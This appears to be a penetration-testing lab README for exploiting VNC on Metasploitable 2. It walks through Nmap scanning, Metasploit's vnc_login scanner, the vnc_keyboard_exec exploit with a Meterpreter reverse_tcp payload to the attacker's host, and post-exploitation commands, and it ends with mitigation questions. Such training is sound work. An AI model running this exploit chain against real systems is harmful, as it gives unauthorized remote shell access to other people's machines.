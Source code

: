 # Task: Exploiting VNC Service on Metasploitable 2 (Port 5900)

### Learning Objectives

By the end of this exercise, you will be able to:

* Perform service enumeration on a target system.
* Identify the VNC service running on port `5900`.
* Use Metasploit to exploit weak authentication in VNC.
* Gain a remote Virtual Network Computing on Metasploitable 2.
* Understand the importance of secure configurations for remote desktop services.



### Background

Metasploitable 2 is an intentionally vulnerable Linux machine used for penetration testing practice. One of its services, **VNC (Virtual Network Computing)**, is exposed on port **5900**. VNC allows remote desktop access, but if misconfigured (like using weak authentication), attackers can gain control of the system.



### Lab Requirements

* Kali Linux (Attacker)
* Metasploitable 2 (Target)
* Both machines on the same network (e.g., VirtualBox/VMware Host-only or NAT network).



### Step 1: Reconnaissance with Nmap

Scan Metasploitable to find open ports:

```bash
nmap -sV -p 5900 <target_ip>
```

* `-sV` → Detect service version
* `-p 5900` → Scan only the VNC port

👉 Expected Output:
Shows `5900/tcp open vnc`.
<img width="950" height="227" alt="image" src="https://github.com/user-attachments/assets/ab0d045e-6cc1-4539-97f9-d5bb961feb22" />



### Step 2: Search for Vulnerabilities in Metasploit

Start Metasploit:

```bash
msfconsole
```

Search for VNC-related exploits:
search vnc using the command line
```bash
grep scanner search vnc
```

👉 You should find modules like:

* `auxiliary/scanner/vnc/vnc_login`

<img width="1357" height="345" alt="image" src="https://github.com/user-attachments/assets/0d789f4c-4e31-4c23-8a61-d7296d4d1461" />

  
<img width="1365" height="551" alt="vncv 2" src="https://github.com/user-attachments/assets/fc3283c3-38a0-404e-ad52-190f988cc341" />



### Step 3: Set-up Options

Set target IP:

```bash
set RHOSTS <target_ip>
run
```

<img width="1365" height="560" alt="vncv 3" src="https://github.com/user-attachments/assets/afd774a7-67ff-48ec-8ee6-e2a11b59d12e" />




### Step 4: Exploit and Gain Access

Now, attempt to interact with the session:

```bash
use exploit/multi/vnc/vnc_keyboard_exec
set RHOST <target_ip>
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST <your_kali_ip>
exploit
```

👉 Expected Result:
You get a **Meterpreter session** or a remote shell on Metasploitable.



### Step 5: Post-Exploitation

Once inside:

```bash
shell
whoami
uname -a
```

* Confirm you have remote access.
* Enumerate the system.


### Step 6: Discussion / Mitigation

* Why is running VNC without authentication dangerous?
* How should VNC be secured? (passwords, encryption, network restrictions, VPNs).



###  Deliverables for Students

* Nmap scan result screenshot.
* Proof of successful VNC exploitation (shell access).
* Short write-up: *“How could this vulnerability be prevented in a real system?”*
